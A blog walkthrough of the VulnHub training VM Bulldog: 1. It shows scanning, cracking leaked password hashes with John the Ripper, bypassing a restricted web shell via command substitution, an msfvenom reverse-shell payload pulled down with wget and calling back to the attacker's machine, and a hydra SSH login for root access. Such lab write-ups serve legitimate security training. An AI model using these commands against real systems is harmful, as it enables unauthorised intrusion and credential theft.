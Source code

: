 ```yaml
---
layout: post
title: "Who Let the Dogs Out?"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldogs.jpg
  credit: kim_hester / Pixelbay
  creditlink: https://pixabay.com/en/puppy-puppies-cute-bulldog-1785772/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2] and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries recently had its website defaced and owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :) 

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in **bulldog**:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looked like as rendered by a browser.

![screenshot-1](/assets/images/posts/bulldog-walkthrough/screenshot-1.png)

The HTML source of the landing page as well as its internal link did not provide a clue on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4]{:target='blank'} to enumerate the site and see what we can discover.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll will appear in the `nmap` scan. Now, I've two more new directories: `admin` and `dev`.

### Under Development

This page contained interesting information. There's a link to `/dev/shell`, purportedly a web shell. Under the hood in the HTML source, there were SHA1 password hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-walkthrough/screenshot-2.png)

Let's clean up the hashes and submit to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is required to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server in order to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-walkthrough/screenshot-5.png)

We see that a session with the site has been established. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-walkthrough/screenshot-6.png)

Sweet. However, it appeared that only certain commands were allowed.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5]{:target='_blank'} using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back to me. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-walkthrough/screenshot-10.png)

Boom. A low-privilege shell appeared but let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-walkthrough/screenshot-11.png)

### Privilege Escalation

During enumeration, I found two users: `django` and `bulldogadmin`. They were able to `sudo` as `root`. Unfortunately, I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-walkthrough/screenshot-14.png)

Noticed `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-walkthrough/screenshot-17.png)

Seemed like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's exactly what I did.

![screenshot-18](/assets/images/posts/bulldog-walkthrough/screenshot-18.png)

If you look past the "`H`", you'll see "`SUPERultimatePASSWORDyouCANTget`". I'll hit the jackpot if this is the password belonging to any of the users since they can all `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I'll say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-walkthrough/screenshot-21.png)

Well, to an attacker, a shell is a shell is a shell. Period. :smiling_imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
